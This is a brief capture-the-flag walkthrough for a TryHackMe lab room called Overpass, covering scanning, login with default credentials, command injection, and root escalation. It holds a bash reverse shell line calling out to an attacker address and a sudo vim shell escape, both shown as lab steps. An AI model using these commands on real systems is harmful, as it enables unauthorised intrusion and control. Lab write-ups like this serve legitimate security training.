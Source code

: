 # Room Name: Overpass

## 📌 Room Link:
[TryHackMe - Overpass](https://tryhackme.com/room/overpass)

## 🧠 Objectives:
- Enumerate the web app
- Exploit developer account
- Escalate privileges to root

## 🔍 Enumeration:
- Nmap Scan:  
nmap -sC -sV -oN nmap/initial.txt 10.10.10.10


- Ports open: 22 (SSH), 80 (HTTP)

## 🌐 Web Analysis:
- Found login page at `/admin`
- Source code leak reveals default credentials

## 💥 Exploitation:
- Logged in with `admin:admin`
- Command injection on `/api/debug`
- Reverse shell using bash:
bash -i >& /dev/tcp/10.9.0.1/4444 0>&1


## 🔝 Privilege Escalation:
- `sudo -l` shows NOPASSWD on `vim`
- Escalated using:
sudo vim -c '!sh'

## ✅ Flags:
- User: `THM{user_flag_here}`
- Root: `THM{root_flag_here}`

## 🗒️ Notes:
- First time using vim for privesc
